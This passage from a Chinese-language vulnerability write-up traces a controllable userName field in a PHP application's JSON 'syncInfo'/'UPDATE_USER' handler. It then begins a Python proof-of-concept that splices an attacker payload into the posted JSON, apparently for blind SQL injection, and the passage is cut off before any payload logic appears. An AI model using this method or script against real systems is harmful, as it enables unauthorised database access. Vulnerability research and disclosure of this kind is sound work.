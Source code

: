 以这种方式进行传递参数，刚好在下面可以看到一个信息。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhWw1vjwEqBunJ6GvZsL3Y38I7RGzZ6hXdjS9R0gUYbXlpkia1N26unU1icuKqtzdgAK7dNaQAyybvrQ/640?wx_fmt=png&from=appmsg "")  
  
可以看到user_id进行回溯。  
```
	$user_id = $json->syncInfo->user->userId;
```  
  
可以看到是通过$json过来的，看看$json  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhWw1vjwEqBunJ6GvZsL3Y38q61ylEfBUibdXkOKRh6oRFtbibS8eWBkvfKFdrc0Wyjymz6icMTU6iaSicQ/640?wx_fmt=png&from=appmsg "")  
  
发现我们的参数可控，然后进行查看要求因为上面有case分支，查看这个分支。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhWw1vjwEqBunJ6GvZsL3Y38nHl7pEMmSgZR5F7VJxIZ1GAf2S08CabuPvoF0QV7EMoEp6yEb0gneQ/640?wx_fmt=png&from=appmsg "")  
  
分支也是可控的，所以我们直接可以进行构造数据包进行测试。  
  
这里写好了相关POC  
#### 四、POC  
```
import time
import string
import requests
characters = string.ascii_letters + string.digits
import logging
logging.captureWarnings(True)

url = 'https://xxxx.php'
headers = {
    'Content-Type': 'application/json'
}
def data_post(payload):
    data = """{
        "syncInfo": {
            "operationType": "UPDATE_USER",
            "stru": {
                "struId": "1",
                "organId": "1",
                "struType": "1",
                "parentId": "1",
                "struPath": "1",
                "organCode": "1",
                "organName": "1",
                "organType": "1",
                "departmentId": "1",
                "departmentName": "1",
                "corporationName": "1",
                "isLeaf": "1",
                "isUse": "1"
            },
            "user": {
                "userId": "1",
                "userName": """+payload+""",
                "employeeId": "1",
                "departmentId": "1",
                "departmentName": "1",
                "coporationId": "1",
                "corporationName": "1",
                "userSex": "1",
                "userDuty": "1",
                "userBirthday": "1",
                "userPost": "1",
                "userPostCode": "1",
                "userAlias": "1",
```